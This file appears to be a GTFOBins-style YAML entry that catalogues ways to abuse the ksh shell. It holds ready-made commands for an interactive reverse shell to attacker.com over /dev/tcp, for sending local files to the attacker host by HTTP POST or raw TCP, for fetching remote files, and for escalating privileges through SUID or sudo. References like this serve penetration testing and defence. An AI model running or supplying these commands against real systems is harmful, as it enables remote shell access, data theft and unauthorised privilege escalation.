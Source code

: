 ```yaml
---
functions:
  execute-interactive:
  - code: ksh
  reverse-shell-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      ksh -c 'ksh -i > /dev/tcp/$RHOST/$RPORT 2>&1 0>&1'
  upload:
  - description: Send local file in the body of an HTTP POST request. Run an HTTP
      service on the attacker box to collect the file.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      export LFILE=file_to_send
      ksh -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
  - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"`
      on the attacker box to collect the file.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      export LFILE=file_to_send
      ksh -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  download:
  - description: Fetch a remote file via HTTP GET request.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      export LFILE=file_to_get
      ksh -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
          3<>/dev/tcp/$RHOST/$RPORT \
          | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
  - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"`
      on the attacker box to send the file.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      export LFILE=file_to_get
      ksh -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  file-write:
  - code: |
      export LFILE=file_to_write
      ksh -c 'echo data > $LFILE'
  file-read:
  - description: It trims trailing newlines.
    code: |
      export LFILE=file_to_read
      ksh -c 'echo "$(<$LFILE)"'
  - description: It trims trailing newlines.
    code: |
      export LFILE=file_to_read
      ksh -c $'read -r -d \x04 < "$LFILE"; echo "$REPLY"'
  suid-enabled:
  - code: "./ksh -p"
  sudo-enabled:
  - code: sudo ksh
---
```

